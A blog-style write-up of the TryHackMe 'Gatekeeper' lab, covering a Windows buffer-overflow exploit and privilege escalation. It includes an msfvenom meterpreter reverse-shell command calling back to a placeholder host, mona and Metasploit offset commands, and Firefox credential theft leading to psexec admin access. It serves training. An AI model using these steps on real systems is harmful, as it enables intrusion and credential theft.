+++
title = 'TryHackMe Gatekeeper write-up'
date = 2024-10-03T07:07:07+01:00
+++

*Can you get past the gate and through the fire?*

**Enumeration**



On port 31337 there is a program running that takes our input. It crashes when providing a big input confirming it's vulnerable to buffer overflow



We can download the program via smb as guest login is enabled





**Exploiting Buffer Overflow**
I copied the gatekepper.exe file to Windows machine with Immunity Debugger and started testing the program using scripts from https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst
Let's create a unique pattern so we can determine the offset of the EIP
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
After sending the payload we copy the value of EIP shown in the Immunity Debugger



And run the command
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 600 -q <address>`
to find EIP offset
We can now update offset variable in the exploit script and start looking for bad chars. First let's run a mona command in Immunity Debugger
`!mona bytearray -b "\x00"`
Then we generate bad chars and copy them to our script
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()

```
After sending our exploit we copy the address of ESP and run another mona command
`!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <address>`



Then we generate a new bytearray in mona, specifying these new badchars along with \x00 and remove these new badchars from our payload. After sending the updated exploit there are no more bad chars found



After that we need to find a jump point
`!mona jmp -r esp -cpb "<bad chars>"`



We pick one of the addresses found and copy it to our retn variable in reverse because of the endianness of the system. Then we generate a payload with msfvenom
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<bad chars>" -f c`
and copy it to our payload variable. Finally we prepend at least 16 NOP bytes (\x90) as padding. Final variables look like this



After setting up listener in metasploit and running the exploit we get a reverse shell



**Privilege Escalation**
There is a Firefox.lnk file meaning that Firefox is installed on the system. That plus the fact that the box description mentions 'fire' suggests that it might be an attack vector. We can use Metasploit's post/multi/gather/firefox_creds module to retrieve credentials



Now we have to decrypt the data. We can use firefox_decrypt for this: https://github.com/unode/firefox_decrypt. After renaming the files and running the program we find credentials



We can use these with a tool called psexec which allows to execute commands on a remote system



We have administrator privileges